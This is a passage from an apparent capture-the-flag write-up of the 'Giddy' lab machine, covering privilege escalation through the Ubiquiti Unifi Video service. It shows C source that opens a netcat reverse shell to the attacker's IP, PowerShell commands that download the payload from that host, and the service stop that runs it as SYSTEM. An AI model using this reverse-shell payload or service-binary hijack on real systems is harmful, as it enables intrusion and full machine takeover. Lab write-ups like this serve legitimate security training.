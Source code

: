 ```cpp
#include <stdlib.h>

int main()
{
	system("nc.exe -e cmd.exe 10.10.14.29 9999");
	return 0;
}
```

I used mingw32 to compile it from my Linux box:

```shell-session
$ i686-w64-mingw32-gcc -o giddy.exe giddy.c
```

And downloaded both nc.exe and the test executable on to Giddy with the Invoke-WebRequest Powershell cmdlet:

```powershell
$ Invoke-WebRequest "http://10.10.14.29:9090/nc.exe" -OutFile "./nc.exe"
```

Or, *iwr* for short:

```powershell
$ iwr "http://10.10.14.29:9090/giddy.exe" -outfile "./taskkill.exe"
```

Stopping the service is all we need to trigger the exploit:

```shell-session
$ stop-service -name "Ubiquiti Unifi Video"
```

![img](/images/giddy-writeup/19.png)

We receive a connection from Giddy and we are now NT Authority/SYSTEM:

![img](/images/giddy-writeup/20.png)












